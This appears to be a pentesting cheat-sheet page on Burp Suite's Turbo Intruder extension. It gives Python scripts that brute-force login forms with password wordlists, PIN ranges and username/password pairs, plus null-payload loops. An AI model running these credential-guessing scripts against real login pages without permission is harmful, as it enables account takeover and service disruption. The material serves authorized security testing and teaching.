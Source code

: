 ```yaml
---
title: Turbo Intruder in Burp Suite
description: Turbo Intruder is the Burp Suite extension for brute forcing or fuzzing to websites.
tags:
    - Web
refs:
date: 2023-08-14
draft: false
---
```


## Using Single Parameter

Set **“%s”** to the parameter for brute force.  
For example, set **%s** as the value of **`password`** then we can brute force to password.

```HTML
POST /login HTTP/1.1
...

username=admin&password=%s
```

Here is the Python cheat sheet.  We can use either code depending on the situation.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=5,
                        requestsPerConnection=5,
                        pipeline=False
                        )

    # Brute force (wordlist)
    for word in open('/usr/share/wordlists/rockyou.txt'):
        engine.queue(target.req, word.rstrip())

    # Brute force (0 - 255)
    for i in range(0, 255):
        engine.queue(target.req, str(i))

    # Brute force (0000 - 9999)
    for word in open('/usr/share/seclists/Fuzzing/4-digits-0000-9999.txt'):
        engine.queue(target.req, word.rstrip())

    # Brute Force (alphabet)
    for word in open('/usr/share/seclists/Fuzzing/char.txt'):
        engine.queue(target.req, word.rstrip())

    # Brute Force (alphanum upper-lower)
    for word in open('/usr/share/seclists/Fuzzing/alphanum-case.txt'):
        engine.queue(target.req, word.rstrip())

    # Null payloads (infinite loop)
    i = 0
    while i < 1:
        engine.queue(target.req, None)

    # Null payloads (100 loops)
    i = 0
    while i < 100:
        engine.queue(target.req, None)
        i += 1


def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

<br />

## Using Multiple Parameters

In addition to simple parameter, we can apply multiple parameters e.g. **username and password**.

```HTML
POST /login HTTP/1.1
...

username=%s&password=%s
```

Here is the Python script. We need to apply multiple words for each parameter as below.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=5,
                        requestsPerConnection=100,
                        pipeline=False)

    # Set multiple words for parameters.
    for word1 in open('/path/to/usernames'):
        for word2 in open('/path/to/passwords'):
            engine.queue(target.req, [word1.rstrip(), word2.rstrip()])


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```